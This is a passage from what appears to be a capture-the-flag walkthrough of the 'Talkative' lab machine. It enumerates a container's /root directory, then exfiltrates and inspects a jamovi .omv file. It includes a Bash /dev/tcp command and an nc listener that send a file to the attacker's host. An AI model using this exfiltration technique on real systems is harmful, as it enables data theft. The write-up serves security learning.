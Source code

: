 
There’s also a `.dockerenv` file in the system root.

#### Home Dir

There are no home directories in `/home`, but there are some files in `/root`:

    
    
    root@b06821bbda78:~# ls -la
    total 28
    drwx------ 1 root root 4096 Mar  7 23:19 .
    drwxr-xr-x 1 root root 4096 Mar  7 23:18 ..
    lrwxrwxrwx 1 root root    9 Mar  7 23:19 .bash_history -> /dev/null
    -rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
    drwxr-xr-x 3 root root 4096 Aug 22 17:10 .jamovi
    -rw-r--r-- 1 root root  148 Aug 17  2015 .profile
    drwxrwxrwx 2 root root 4096 Aug 15  2021 Documents
    -rw-r--r-- 1 root root 2192 Aug 15  2021 bolt-administration.omv
    

I’ll exfil the `bolt-administration.omv` file using Bash and `nc`. With `nc`
listening from my host, from Talkative I’ll run:

    
    
    root@b06821bbda78:~# cat bolt-administration.omv > /dev/tcp/10.10.14.6/443
    root@b06821bbda78:~# md5sum bolt-administration.omv 
    89a471297760280c51d7a48246f95628  bolt-administration.omv
    

At my host, the file is downloaded:

    
    
    oxdf@hacky$ nc -lnvp 443 > bolt-administration.omv
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.155 40266
    oxdf@hacky$ md5sum bolt-administration.omv 
    89a471297760280c51d7a48246f95628  bolt-administration.omv
    

The hashes match, so the file is good!

#### omv File

`.omv` files are documents from jamovi, but they are also just Zip archives:

    
    
    oxdf@hacky$ file bolt-administration.omv 
    bolt-administration.omv: Zip archive data, at least v2.0 to extract
    

There’s a standard file structure used by jamovi inside:

    
    
    oxdf@hacky$ unzip -l bolt-administration.omv
    Archive:  bolt-administration.omv
      Length      Date    Time    Name
    ---------  ---------- -----   ----
          106  2021-08-14 23:16   META-INF/MANIFEST.MF
          106  2021-08-14 23:16   meta
         2505  2021-08-14 23:16   index.html
         1055  2021-08-14 23:16   metadata.json
          433  2021-08-14 23:16   xdata.json
           48  2021-08-14 23:16   data.bin
           50  2021-08-14 23:16   01 empty/analysis
    ---------                     -------
         4303                     7 files
    